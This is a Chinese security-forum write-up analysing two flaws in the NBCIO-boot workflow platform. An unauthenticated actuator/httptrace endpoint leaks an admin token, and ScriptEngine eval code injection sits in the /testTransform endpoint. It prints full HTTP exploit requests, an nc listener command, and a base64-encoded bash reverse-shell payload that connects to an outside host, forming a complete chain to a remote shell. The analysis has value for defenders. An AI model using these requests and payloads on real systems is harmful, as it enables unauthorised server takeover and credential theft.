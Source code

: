 一、项目简介
======

NBCIO 亿事达企业管理平台后端代码，基于jeecgboot3.0和flowable6.7.2，初步完成了集流程设计、流程管理、流程执行、任务办理、流程监控于一体的开源工作流开发平台，同时增加了聊天功能、大屏设计器、网盘功能和项目管理。  
项目地址：<https://gitee.com/nbacheng/nbcio-boot>

二、环境搭建
======

只需修改配置文件中的mysql和redis连接信息即可正常运行。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-69ce75e3196e0d778d10e9a9a2239b8eafd89cea.png)

三、未授权分析
=======

在ShiroConfig中放开了actuator方法的未授权访问  
org/jeecg/config/shiro/ShiroConfig.java:156

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-4fad000cb6184288b7173d14e5b6d7617e69c6b0.png)  
直接访问/actuator/httptrace可以免认证获取管理员的token信息

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-08b79218b25cb5a91836ffbba22800b1c432268b.png)

四、RCE分析
=======

此处代码调用了ScriptEngine的eval方法，此方法若不做特殊处理易引起代码注入问题，这里不做过多解释。  
com/nbcio/modules/estar/bs/service/impl/DataSetParamServiceImpl.java:99

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-11071412ac100da644f6bf0c1ade0d9f6ec5a1f8.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-84cc0929d8b76caf0a03b2793988a7046e37eea2.png)  
根据方法调用反向跟踪到了/testTransform接口

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-96128d8d6ecd91aa2af958da2877cc405a4f8bf6.png)  
由于该接口参数结构较为复杂，所以需要找到前端触发点直接抓包获取参数。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-4c62f1d40eb18b74db0ce9455378bd0e45f4786f.png)  
点击测试预览即可触发该接口

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-16e62c04e257435c28d0d7320efde616d91d27af.png)  
抓包修改参数并发出请求。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-0efaaf52b2720ab2de016012c3cd2a9152e8b97b.png)  
成功触发计算器，本地测试OK

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-b0e54bd013107b519d660aa045b64935ff391a3f.png)

```xml
POST /nbcio-boot/bs/bsDataSet/testTransform HTTP/1.1
Host: 192.168.64.1:8081
Content-Length: 345
Accept: application/json, text/plain, */*
X-TIMESTAMP: 20240808213818
X-Sign: ED5C3621799AA3EAC6D2ABAB498B1DCD
tenant-id: 0
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjMxMzU3MDAsInVzZXJuYW1lIjoiYWRtaW4ifQ.t5je51OW1Q40U-8d0HudQCXQc-WXQbP7o9cmvKjsO3Y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://218.75.87.38:9888
Referer: http://218.75.87.38:9888/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"sourceCode":"mysql","dynSentence":"select * from bs_report_barstack","dataSetParamDtoList":[{"paramName":"","paramDesc":"","paramType":"","sampleItem":"","mandatory":true,"requiredFlag":1,"validationRules":"java.lang.Runtime.getRuntime().exec('calc');"}],"dataSetTransformDtoList":[{"transformType":"js","transformScript":""}],"setType":"sql"}
```

五、漏洞实战
======

### 1、按照第三步获取管理员认证信息

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-44f9f533677ac5a9041359c67265d38e7148503b.png)

```xml
GET /nbcio-boot/actuator/httptrace HTTP/1.1
Host: *****
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

### 2、打开kali，nc监听指定端口

nc -lvnp 7777

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-8ba0739c028069f76f1badd7622c0338dc3c1463.png)

### 3、发送反弹shell的poc

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-6a3ad267327310d0bdb6fec9faa12972c4751a4d.png)

```xml
POST /nbcio-boot/bs/bsDataSet/testTransform HTTP/1.1
Host: ****
Content-Length: 450
Accept: application/json, text/plain, */*
tenant-id: 0
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjMyMjgyMTQsInVzZXJuYW1lIjoiYWRtaW4ifQ.oCbEjdP074ORip82D4ix27FtG0WgVnAlc7fjRZeZxgM
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"sourceCode":"mysql","dynSentence":"select * from bs_report_barstack","dataSetParamDtoList":[{"paramName":"","paramDesc":"","paramType":"","sampleItem":"","mandatory":true,"requiredFlag":1,"validationRules":"java.lang.Runtime.getRuntime().exec(\"bash -c {echo,YmFzaCAtaT4mIC9kZXYvdGNwLzZ2NzI4NzAyZjYuemljcC5mdW4vNTMyNjcgMD4mMQ==}|{base64,-d}|{bash,-i}\");"}],
"dataSetTransformDtoList":[{"transformType":"js","transformScript":""}],"setType":"sql"}
```

### 4、成功获取到目标shell

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/08/attach-f169880d9a42e4b80531185963b51b0422984c1e.png)  
至此，漏洞分析结束。